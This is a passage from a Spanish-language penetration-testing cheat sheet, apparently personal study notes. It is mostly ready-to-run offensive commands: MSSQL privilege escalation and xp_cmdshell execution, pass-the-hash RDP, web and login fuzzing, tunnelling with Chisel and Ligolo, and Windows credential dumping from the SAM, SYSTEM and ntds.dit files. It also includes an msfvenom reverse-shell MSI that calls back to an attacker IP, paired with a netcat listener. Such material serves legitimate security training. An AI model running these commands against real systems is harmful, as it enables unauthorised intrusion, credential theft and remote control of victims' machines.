nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv

# Aproveche los privilegios de MSSQL para escalar de un usuario estándar a un sysadmin.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=privesc

# Revertir los privilegios del usuario al usuario estándar.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=rollback

# Obtener un archivo remoto de una carpeta compartida.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> --share <SHARE_NAME> --get-file <REMOTE_FILENAME> <OUTPUT_FILENAME>

# Subir un archivo local en una ubicación remota
nxc mssql <RHOST> -u <USER> -p <PASSWORD> --share <SHARE_NAME> --put-file <LOCAL_FILENAME> <REMOTE_FILENAME>
```
####  3.4.3. <a name='conexión'></a>Conexión

```powershell
sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'
```

```bash
impacket-mssqlclient <USERNAME>@<RHOST>
impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
impacket-mssqlclient -k -no-pass <RHOST>
impacket-mssqlclient <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```bash
export KRB5CCNAME=<USERNAME>.ccache
impacket-mssqlclient -k <RHOST>.<DOMAIN
```
####  3.4.4. <a name='comandos-básicos-1'></a>Comandos básicos

```sql
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM <DATABASE>.information_schema.tables;
SELECT * FROM <DATABASE>.dbo.users;
```
####  3.4.5. <a name='mostrar-el-contenido-de-una-base-de-datos'></a>Mostrar el contenido de una base de datos

```sql
1> SELECT name FROM master.sys.databases
2> go
```

####  3.4.6. <a name='ejecución-de-código'></a>Ejecución de código

En MSSQL gracias a la palabra clave `execute`, podemos ejecutar el comando arbitrario en el sistema operativo. Para hacer eso primero tenemos que habilitar la ejecución del comando dentro de la base de datos de la siguiente forma:

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

De esta forma, ya podemos ejecutar comandos:

```sql
EXECUTE xp_cmdshell 'whoami'
```
###  3.5. <a name='snmp-(161---udp)'></a>SNMP (161 - UDP)

El Protocolo Simple de Administración de Red, o SNMP por sus siglas en inglés, es un protocolo basado en UDP que, inicialmente, fue implementado de manera no muy segura. Cuenta con una base de datos (MIB) que almacena información relacionada con la red. El puerto predeterminado de SNMP es el 161 UDP. Hasta la tercera versión de este protocolo, SNMPv3, la seguridad de SNMP era deficiente. Existen diversas herramientas para interactuar con SNMP, ya que este protocolo puede proporcionarnos mucha información acerca de una organización, basándose en las respuestas del servidor. Algunas herramientas útiles incluyen _onesixtyone_ para realizar ataques de fuerza bruta básicos y enumeración, y _snmpwalk_ para acceder a los datos de la base de datos MIB.

La "cadena de comunidad SNMP" funciona como un ID de usuario o una contraseña que permite acceder a las estadísticas de un enrutador u otro dispositivo. Las cadenas de comunidad SNMP solo se utilizan en dispositivos que soportan los protocolos SNMPv1 y SNMPv2c. Por su parte, SNMPv3 utiliza autenticación mediante nombre de usuario/contraseña, junto con una clave de cifrado. De manera convencional, la mayoría de los dispositivos SNMPv1 y SNMPv2c que se envían de fábrica tienen la cadena de comunidad de solo lectura configurada como "public". Es una práctica estándar que los administradores de red cambien todas las cadenas de comunidad a valores personalizados durante la configuración del dispositivo.

```bash
sudo apt-get install snmp-mibs-downloader
```

```bash
snmpwalk -c public -v1 <RHOST>
snmpwalk -v2c -c public <RHOST> 1.3.6.1.2.1.4.34.1.3
snmpwalk -v2c -c public <RHOST> .1
snmpwalk -v2c -c public <RHOST> nsExtendObjects
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.25
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.25.4.2.1.2
snmpwalk -c public -v1 <RHOST> .1.3.6.1.2.1.1.5
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.3.1.1
snmpwalk -c public -v1 <RHOST> 1.3.6.1.4.1.77.1.2.27
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.6.13.1.3
snmpwalk -c public -v1 <RHOST> 1.3.6.1.2.1.25.6.3.1.2
snmpwalk -v2c -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
```

| MIB                    | Microsoft Windows SNMP parámetros |
| ---------------------- | --------------------------------- |
| 1.3.6.1.2.1.25.1.6.0   | Procesos                          |
| 1.3.6.1.2.1.25.4.2.1.2 | Programas en ejecución            |
| 1.3.6.1.2.1.25.4.2.1.4 | Rutas de los procesos             |
| 1.3.6.1.2.1.25.2.3.1.4 | Unidades de almacenamiento        |
| 1.3.6.1.2.1.25.6.3.1.2 | Software                          |
| 1.3.6.1.4.1.77.1.2.25  | Cuentas de usuarios               |
| 1.3.6.1.2.1.6.13.1.3   | Puertos TCP locales               |

Referencias: [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html)

###  3.6. <a name='rdp-(3389)'></a>RDP (3389)

El protocolo RDP (Remote Desktop Protocol) es un protocolo de red desarrollado por Microsoft que permite a los usuarios conectarse de manera remota a una computadora con Windows. Utiliza el puerto 3389 por defecto y permite que los usuarios controlen una máquina a distancia, viendo su escritorio y utilizando aplicaciones como si estuvieran frente a ella. Es ampliamente utilizado para administración remota y soporte técnico.

####  3.6.1. <a name='xfreerdp'></a>xfreerdp

```bash
xfreerdp /v:<RHOST> /u:<USERNAME> /p:<PASSWORD> /cert-ignore
xfreerdp /v:<RHOST> /u:<USERNAME> /p:<PASSWORD> /d:<DOMAIN> /cert-ignore
xfreerdp /v:<RHOST> /u:<USERNAME> /p:<PASSWORD> /dynamic-resolution +clipboard
xfreerdp /v:<RHOST> /u:<USERNAME> /d:<DOMAIN> /pth:'<HASH>' /dynamic-resolution +clipboard
xfreerdp /v:<RHOST> /dynamic-resolution +clipboard /tls-seclevel:0 -sec-nla
rdesktop <RHOST>
```
###  3.7. <a name='netexec-3'></a>Netexec

```bash
# Si NLA está deshabilitado, le permitirá tomar una captura de pantalla del mensaje de inicio de sesión
nxc rpd <RHOST> -u <USER> -p <PASSWORD> --nla-screenshot

# Toma una captura de pantall del objetivo
nxc rpd <RHOST> -u <USER> -p <PASSWORD> --screenshot

# Enumerar los permisos en todos los recursos compartidos del objetivo
nxc rpd <RHOST> -u <USER> -p <PASSWORD> --screentime <SCREENTIME>

# Enumerar las sesiones activas en el objetivo
nxc rpd <RHOST> -u <USER> -p <PASSWORD> --res <RESOLUTION>
```
##  4. <a name='web'></a>Web

###  4.1. <a name='enumeración'></a>Enumeración

####  4.1.1. <a name='fuff'></a>Fuff

```bash
# Fuzzing de directorios y archivos
ffuf -c -u http://<RHOST>/FUZZ -w <WORDLIST> -t 20
ffuf -c -u http://<RHOST>/FUZZ -mc all --fs <NUMBER> -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
ffuf -c -u http://<RHOST>/FUZZ -mc all --fw <NUMBER> -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
ffuf -c -u http://<RHOST>/FUZZ -mc 200,204,301,302,307,401 -w /usr/share/wordlists/dirb/common.txt -o ffuf_scan.txt
ffuf -c -u http://<RHOST>/FUZZ -recursion -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php,.txt,.html,.cgi,.bkp,.zip

# Fuzzing a través de proxychains
ffuf -c -recursion-depth 2 -x socks5://localhost:4444 -u http://<RHOST>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php

# Fuzzing de subdominios
ffuf -c -u http://<RHOST>/FUZZ -H 'Host: FUZZ.<RHOST>' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 20 -fs <NUMBER>

# LFI
ffuf -c -fs <NUMBER> -u http://<RHOST>/admin../admin_staging/index.php?page=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt

# Fuzzing con PHP Session ID
ffuf -c -fw 2644 -u "http://<RHOST>/admin/FUZZ.php" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -b "PHPSESSID=a0mjo6ukbkq271nb2rkb1joamp"

# API
ffuf -c -ac -t 250 -fc 400,404,412 -u https://<RHOST>/api/v1/FUZZ -w api_seen_in_wild.txt 
```

####  4.1.2. <a name='gobuster'></a>Gobuster

```bash
gobuster dir -u http://<RHOST>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://<RHOST>/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php
gobuster dir -u http://<RHOST>/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,js -e -s 200
gobuster dir -u https://<RHOST>:<RPORT>/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -b 200 -k --wildcard

# VHost Discovery
gobuster vhost -u <RHOST> -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
gobuster vhost -u <RHOST> -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Parámetros:

- `-e` Modo extendido que muestra la URL completa
- `-k` Ingnora la validación del certificado SSL
- `-r` Redirecciones
- `-s` Código de estado
- `-b` Excluye códigos de estado
- `--wildcard` Establecer la opción comodín

####  4.1.3. <a name='wfuzz'></a>Wfuzz

```bash
# Fuzzing de directorio
wfuzz -c -u http://<RHOST>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 403,404

# Fuzzing de archivos
wfuzz -c -u http://<RHOST>/FUZZ/<FILE>.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc 403,404 -f <FILE>

# Fuzzing de dos parámetros
wfuzz -c -u http://<RHOST>:/<directory>/FUZZ.FUZ2Z -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,txt-php --hc 403,404

# Subdominios
wfuzz <RHOST> -H "Host: FUZZ.<RHOST>" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hc 200 --hw 356 -t 100

# Login
wfuzz -X POST -u "http://<RHOST>:<RPORT>/login.php" -d "username=FUZZ&password=<PASSWORD>" -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt--hc 200 -c
wfuzz -X POST -u "http://<RHOST>:<RPORT>/login.php" -d "username=FUZZ&password=<PASSWORD>" -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --ss "Username or Password Invalid"
```

###  4.2. <a name='enumeración-de-cms'></a>Enumeración de CMS

####  4.2.1. <a name='wordpress'></a>Wordpress
##### WPScan

Enumeración de temas y plugins Wordpress

```bash
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
wpscan --url https://<RHOST> --disable-tls-checks --enumerate u,t,p
wpscan --url http://<RHOST> -U <USERNAME> -P passwords.txt -t 50
wpscan --url http://<RHOST>/wordpress --api-token $WP_TOKEN --plugins-detection aggressive
```

> La variable de entorno `$WP_TOKEN` contiene el token generado en la web [https://wpscan.com/](https://wpscan.com/)

##### Nuclei

```bash
nuclei -u http://<RHOST>/wordpress/ -tags fuzz -t /home/d4redevil/.local/nuclei-templates/http/fuzzing/wordpress-plugins-detect.yaml
```
##### Gobuster

```bash
gobuster dir -u http://<RHOST>/wordpress/ -w /usr/share/seclists/Discovery/WebContent/CMS/wp-plugins.fuzz.txt
```

####  4.2.2. <a name='joomla'></a>Joomla

```bash
joomscan -u http://<RHOST>
```

####  4.2.3. <a name='drupal'></a>Drupal

```bash
droopescan scan drupal -u http://<RHOST> -t 32
```

####  4.2.4. <a name='magento'></a>Magento

```bash
php magescan.phar scan:all http://<RHOST>
```

##  5. <a name='pivoting'></a>Pivoting

###  5.1. <a name='chisel'></a>Chisel
####  5.1.1. <a name='servidor-(atacante)'></a>Servidor (Atacante)

```bash
chisel server -p 8000 --reverse --socks5
```
####  5.1.2. <a name='cliente-(víctima)'></a>Cliente (Víctima)

Linux

```bash
./chisel client <IP-CHISEL-SERVER>:8000 R:8000:socks
./chisel client <IP-CHISEL-SERVER>:8000 R:3000:127.0.0.1:3000
```

Windows

```powershell
.\chisel.exe client <ipKali>:8000 R:4444:socks 9001:127.0.0.1:9001 8888:127.0.0.1:80
```

- Proxy socks en puerto Kali 4444
- Mapea 9001 MS01 a 9001 Kali
- Mapea 8888 MS01 a 80 Kali
####  5.1.3. <a name='socat'></a>Socat

```bash
./socat tcp-listen:2222,fork,reuseaddr tcp:10.10.10.5:8000 &
```

Exponer un puerto local

```bash
socat TCP-LISTEN:8282,fork TCP:127.0.0.1:8080 &
```

> En este caso, el puerto `8080` no esta expuesto fuera del equipo local, pero con el comando anterior exponemos el puerto hacia fuera a través del puerto `8282`.

###  5.2. <a name='ligolo-ng'></a>Ligolo-ng

####  5.2.1. <a name='descargar-el-proxy-y-el-agente'></a>Descargar el Proxy y el Agente

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.7.5_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.7.5_Linux_64bit.tar.gz
```

####  5.2.2. <a name='preparar-las-interfaces-para-el-tunel'></a>Preparar las interfaces para el tunel

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

####  5.2.3. <a name='configurar-proxy-en-la-máquina-del-atacante'></a>Configurar proxy en la máquina del atacante

```bash
./proxy -laddr <LHOST>:443 -selfcert
```

####  5.2.4. <a name='configurar-el-agente-en-la-máquina-víctima'></a>Configurar el agente en la máquina víctima

```bash
./agent -connect <LHOST>:443 -ignore-cert
```

####  5.2.5. <a name='configurar-la-sesión'></a>Configurar la sesión

```bash
ligolo-ng » session
[Agent : user@target] » ifconfig
sudo ip r add 172.16.1.0/24 dev ligolo
[Agent : user@target] » start
```
##### Port Forwarding

```bash
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```

##  6. <a name='passwords-attacks'></a>Passwords Attacks

##  7. <a name='transferencia-de-archivos'></a>Transferencia de Archivos

###  7.1. <a name='windows-1'></a>Windows

Diferentes utilidades para las operaciones de transferencia de archivos en Windows.
###  7.2. <a name='linux'></a>Linux

Diferentes utilidades para las operaciones de transferencia de archivos en Linux.

##  8. <a name='movimiento-lateral'></a>Movimiento Lateral

###  8.1. <a name='windows-2'></a>Windows

###  8.2. <a name='linux-1'></a>Linux

##  9. <a name='escalación-de-privilegios'></a>Escalación de Privilegios

###  9.1. <a name='windows-3'></a>Windows

####  9.1.1. <a name='enumeración-1'></a>Enumeración

##### Sistema

```powershell
hostname

# Devuelve True si un equipo forma parte de un dominio
(Get-WmiObject -Class Win32_ComputerSystem).PartOfDomain

qwinsta

query user

systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
[System.Environment]::OSVersion.Version
Get-ComputerInfo
Get-ComputerInfo | Select OsName,OsVersion,OsType

# variable de entorno
echo %PATH%
set
Get-ChildItem Env: | ft Key,Value

# Parches
wmic qfe get Caption, Description, HotFixID, InstalledOn
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

# Actualizaciones del sistema
wmic qfe list brief

# Lista los procesos en ejecución
tasklist /svc

# Lista los procesos en ejecución
Get-Process
Get-Process | Select-Object Name, Path
Get-WmiObject Win32_Process -Filter "name = 'notepad.exe'" | Select-Object Name, ExecutablePath

# Listar procesos NO estandar, procesos que no están en las carpetas del sistema
Get-Process | Where-Object { $_.Path -notmatch "C:\\Windows\\System32" -and $_.Path -notmatch "C:\\Windows\\SysWOW64" } | Select-Object ProcessName, Id, Path

# Parches
Get-HotFix | ft -AutoSize

# Programas instalados
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-WmiObject -Class Win32_Product |  select Name, Version
wmic product get name

# Lista los modulos
Get-Module

Get-ExecutionPolicy -List

# Listar las reglas de AppLocker
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Probar la política de AppLocker
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone

# Obtener el historial de PowerShell del usuario especificado
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

# Confirmar si UAC esta habilitado
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

# Comprobar el nivel de UAC
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

##### Usuarios

```powershell
whoami all
whoami /priv
whoami /groups

# Usuarios Locales
net users
net user <USER>
net user <USER> /domain
net user %username%
Get-LocalUser

# Información acerca del requerimiento de contraseña
net accounts
net accounts /domain

# Crear usuario
net user /add <USERNAME> <PASSWORD>

echo "%USERDOMAIN%"
echo %logonserver%
wmic USERACCOUNT Get Domain,Name,Sid
```

##### Grupos

```powershell
# Local
net localgroup # Lista todos los grupos
net localgroup Administrators # Info acerca de un grupo (admins)
net localgroup administrators <USERNAME> /add # Agreaga un usuario al grupo administrators

Get-LocalGroup # Lista todos los grupos locales
Get-LocalGroupMember <GROUP> # Lista los miembros de un Grupo

# Dominio
net group /domain                      # Info acerca de los grupos del dominio
net group /domain <DOMAIN_GROUP_NAME>  # Usuarios que pertencen al grupo
net group "Domain Computers" /domain   # Lista de PC conectadas al dominio
net group "Domain Controllers" /domain # Listar cuentas de PC de controladores de dominio
```
##### Red

```powershell
ifconfig
ifconfig /all
route print
arp -a
netstat -ano
netsh advfirewall show state
```
##### Windows Defender

```powershell
netsh advfirewall show allprofiles
sc query windefend

Get-MpComputerStatus
```
##### Recursos compartidos

Recursos compartidos comunes en Windows:

- `C$` corresponde a C:/
- `ADMIN$` se asigna a C:/Windows
- `IPC$` se utiliza para RPC
- `Print$` aloja controladores para impresoras compartidas
- `SYSVOL` sólo en DCs
- `NETLOGON` sólo en los DC

```powershell
# Listar recursos compartidos
Get-SMBShare
net share

# Montar el recurso compartido
net use z: \\172.16.0.1\C$ /user:elliot "P@ssword123!"

# Desmontar el recurso compartido
net use /delete z:

# /all nos permite ver los recursos compartidos administrativos (que terminan en '$').
# Puede usarse IP o nombre de host para especificar el host.
net view \\172.16.0.1 /all
```
##### Información sensible

Buscamos información sensible.

```powershell
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\%username%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\elliot\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Select-String -Path C:\Users\elliot\Documents\*.txt -Pattern password

findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
findstr /spin "password" *.*
```

Buscar contraseñas en el Registro

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

##### Volcado de credenciales

```powershell
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\system c:\temp\system.save
reg.exe save hklm\security c:\temp\security.save
```

Algunos otros archivos en los que podemos encontrar credenciales incluyen lo siguiente:

```powershell
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
##### Credenciales guardadas

El [comando CMDKey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) se puede usar para crear, enumerar y eliminar los nombres de usuario y contraseñas almacenados. Los usuarios pueden desear almacenar credenciales para un host específico o usarlo para almacenar credenciales para conexiones de servicios de terminal para conectarse a un host remoto que usa escritorio remoto sin necesidad de ingresar una contraseña. Esto puede ayudarnos a movernos lateralmente a otro sistema con un usuario diferente o aumentar los privilegios en el host actual para aprovechar las credenciales almacenadas para otro usuario.

```powershell
cmdkey /list
```

```powershell-session
runas /savecred /user:hacklab.local\bob "whoami"
```
##### Windows Autologon

Windows [Autologon](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon) es una característica que permite a un usuario configurar su sistema operativo Windows para iniciar sesión automáticamente en una cuenta de usuario específica, sin requerir la entrada manual del nombre de usuario y la contraseña en cada inicio. Sin embargo, una vez que esto se configura, el nombre de usuario y la contraseña se almacenan en el registro, en texto claro. Esta característica se usa comúnmente en sistemas de un solo usuario o en situaciones donde la conveniencia supera la necesidad de una mayor seguridad.

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

##### Enumeración automatizada

- [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
- [LaZagne](https://github.com/AlessandroZ/LaZagne)
- [SharpUp](https://github.com/GhostPack/SharpUp)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)

####  9.1.2. <a name='escalación-de-privilegios-1'></a>Escalación de Privilegios

##### AlwaysInstallElevated

La política **Always Install Elevated** es una configuración en Windows que permite a los usuarios estándar instalar aplicaciones con privilegios elevados. Cuando esta política está habilitada, cualquier instalación de aplicación iniciada por un usuario estándar se ejecuta con derechos administrativos, evitando así las solicitudes de **Control de Cuentas de Usuario (UAC)**.

###### Comprobar que la política AlwaysInstallElevated esta habilitada

```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated"
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated"
```

###### Cómo funciona

Cuando la configuración **Always Install Elevated** está habilitada, ocurre lo siguiente:

1. **Elevación de Instalaciones**:
    - Los usuarios estándar pueden instalar aplicaciones sin necesidad de proporcionar credenciales de administrador. Esto permite que los paquetes MSI se ejecuten automáticamente con permisos administrativos.
2. **Bypass de UAC**:
    - El sistema no muestra el aviso de UAC, lo que reduce la visibilidad para el usuario y puede facilitar la instalación de software no autorizado o malicioso.

###### Explotación de Always Install Elevated: Creación y Ejecución de un MSI Malicioso

###### 1. Generar un Paquete MSI Malicioso

Para aprovechar esta política, podemos crear un paquete MSI malicioso para obtener una reverse shell hacia nuetro equipo de atacante. Esto se puede hacer utilizando `msfvenom`. En este ejemplo, configuramos el host local `LHOST` como `192.168.56.5` y el puerto local `LPORT` como `4444`.

El comando para generar el paquete MSI es:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.5 LPORT=4444 -f msi > shell.msi
```

###### 2. Transferir el Archivo MSI al Objetivo

Una vez generado el archivo `shell.msi`, debemos transferirlo a la máquina objetivo. Podemos usar algunos métodos como:

- Compartir archivos (por ejemplo, a través de SMB).
- Subirlo a un servidor web y descargarlo en la máquina objetivo.
- Copiarlo directamente si tienes acceso físico o remoto.

###### 3. Configurar un Listener

El la máquina atacante nos ponemos en escucha con netcat por el puerto indicado, en este caso `4444`.

```bash
rlwrap nc -lnvp 4444
```

###### 4. Ejecutar el Paquete MSI en el Objetivo

En la máquina objetivo, ejecutamos el paquete MSI utilizando el comando `msiexec`. Para evitar alertas o interrupciones, usamos los parámetros `/quiet` y `/qn`, que ejecutan la instalación en modo silencioso:

```powershell
msiexec /i C:\temp\shell.msi /quiet /qn /norestart
```

##### BackupOperators - SeBackupPrivilege y SeRestorePrivilege

El grupo **BackupOperators** es un grupo integrado en Windows que otorga a sus miembros la capacidad de realizar copias de seguridad y restaurar archivos, incluso si no tienen permisos para acceder a esos archivos en circunstancias normales. Este privilegio hace que el grupo sea especialmente poderoso y potencialmente peligroso en escenarios de *escalación de privilegios*, ya que los miembros pueden acceder a archivos sensibles, como la base de datos **SAM (Security Account Manager)** y archivos del sistema, lo que podría permitirles obtener acceso de mayor nivel o incluso privilegios de *SYSTEM*.

###### Privilegios Clave del grupo Backup Operators

Los miembros del grupo **Backup Operators** tienen dos privilegios principales:

1. **SeBackupPrivilege**:
    - Permite a los usuarios **omitir los permisos del sistema de archivos** para realizar copias de seguridad. Esto significa que un miembro de este grupo puede leer archivos a los que normalmente no tendría acceso.
    - **Ejemplo de uso**: Acceder a archivos protegidos como el archivo **SAM**, que almacena los hashes de las contraseñas de los usuarios locales.

2. **SeRestorePrivilege**:
    - Permite a los usuarios **restaurar archivos en cualquier ubicación** del sistema de archivos, incluyendo ubicaciones protegidas o sensibles. Esto también les permite modificar archivos que normalmente estarían restringidos.
    - **Ejemplo de uso**: Sobrescribir archivos del sistema, como binarios de servicios, para ejecutar código malicioso con privilegios elevados.

###### Explotación

Extraer el archivo **SAM**:

Usar herramientas como `reg.exe` para exportar el archivo SAM y SYSTEM:

```powershell
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
```

Extraer los hashes de contraseñas.

###### mimikatz

Desde Windows podemos usar mimikatz

```powershell
sekurlsa::samdump::local c:\temp\sam c:\temp\system
```

También podemos transferir los archivos a nuestra máquina atacante y usar `secretsdump.py` o `pypykatz`.

###### secretsdump.py

```bash
impacket-secrestsdump -sam sam -system system local
```

###### pypykatz

```bash
pypykatz registry --sam sam system
```

##### Extracción del archivo ntds.dit en un Controlador de Dominio

A diferencia de la explotación en sistemas independientes, en un Controlador de Dominio (DC), necesitamos acceder al archivo **ntds.dit** para extraer los hashes de contraseñas, junto con el archivo SYSTEM. Sin embargo, el archivo **ntds.dit** presenta un desafío importante: mientras el Controlador de Dominio está en funcionamiento, este archivo está siempre en uso, lo que impide su copia directa mediante métodos convencionales.

Para superar este problema, podemos utilizar la herramienta `diskshadow`, una funcionalidad integrada de Windows que nos permite crear una copia en la sombra (shadow copy) de una unidad, incluso si está en uso. Aunque diskshadow puede ejecutarse directamente desde una shell, este enfoque suele ser complicado y propenso a errores. Por ello, optamos por crear un Archivo Shell Distribuido (DSH), que contiene todos los comandos necesarios para que diskshadow realice la copia de la unidad de manera automatizada.

###### 1. Crear el Archivo DSH

En nuestra máquina de atacante, creamos un archivo DSH utilizando un editor de texto. Este archivo contendrá los comandos necesarios para que diskshadow cree una copia de la unidad C: en una unidad virtual Z:. Aquí está el contenido del archivo DSH:

```powershell
> vim archivo.dsh
set context persistent nowriters
add volume c: alias backup
create
expose %backup% z:
```

- `set context persistent nowriters`: Configura el contexto para crear una copia en la sombra persistente y sin escritura.
- `add volume c: alias backup`: Agrega la unidad C: como un volumen para la copia, asignándole el alias backup.
- `create`: Crea la copia en la sombra.
- `expose %backup% z:`: Expone la copia en la sombra como una nueva unidad `Z:`.

###### 2. Convertir el Archivo DSH a Formato Windows

Dado que el archivo DSH se crea en un entorno Linux, debemos asegurarnos de que sea compatible con Windows. Para ello, usamos la herramienta `unix2dos`, que convierte la codificación y el espaciado del archivo a un formato compatible con Windows:

```bash
unix2dos archivo.dsh
```

Esto asegura que los saltos de línea y la codificación sean correctos para su ejecución en Windows.

###### 3. Transferir el Archivo DSH al Controlador de Dominio:

Una vez convertido, transferimos el archivo DSH al Controlador de Dominio utilizando métodos como SMB, FTP o cualquier otro medio disponible.

###### 4. Ejecutar diskshadow con el Archivo DSH y Extraer el Archivo ntds.dit

Una vez conectados en la máquina objetivo, nos movemos al Directorio Temp y subimos el archivo `archivo.dsh`. Luego, usamos el script diskshadow con dsh como se muestra abajo. Si se observa, se puede notar que diskshadow está efectivamente ejecutando los mismos comandos que ingresamos en el archivo dsh secuencialmente. Después de ejecutarse, como se ha comentado, creará una copia de la unidad C en la unidad Z. Ahora, podemos utilizar la herramienta RoboCopy para copiar el archivo de la unidad Z al directorio temporal.

```powershell
cd C:\Temp
upload archivo.dsh
cmd.exe /c "diskshadow /s archivo.dsh"
robocopy /b z:\windows\ntds . ntds.dit
```

```powershell
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```

###### 5. Extraer los hashes

Transferimos los archivos a nuestra máquina atacante y extraemos los hashes.

```bash
impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

##### Aprovechar los servicios de Windows

###### Enumeración de servicios en ejecución

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
- `Get-CimInstance`: Es un cmdlet de PowerShell que se utiliza para obtener instancias de clases CIM (Common Information Model) o WMI (Windows Management Instrumentation).

